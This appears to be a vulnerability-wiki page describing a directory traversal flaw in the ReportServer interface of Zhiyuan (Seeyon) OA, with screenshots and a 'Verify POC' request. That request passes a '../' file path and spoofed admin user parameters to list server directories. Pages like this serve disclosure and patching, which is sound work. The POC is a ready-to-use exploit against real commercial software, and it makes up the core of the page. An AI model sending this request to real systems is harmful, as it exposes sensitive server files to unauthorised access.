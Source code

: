 # Zhiyuan OA Fansoft Component ReportServer Directory Traversal Vulnerability

## Vulnerability Description

Zhiyuan OA Fansoft Components The ReportServer interface has a directory traversal vulnerability, and attackers can obtain server sensitive information through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Zhiyuan OA Sailing Component </span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658380405460-276c39d7-9ccc-4136-b334-e6bf2353447d.png)

Verify POC

```php
/seeyonreport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=../&currentUserName=admin&currentUserId=1&isWebReport=true
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1658380435375-7c6730da-7b22-4892-806c-f11da57d6e60.png)
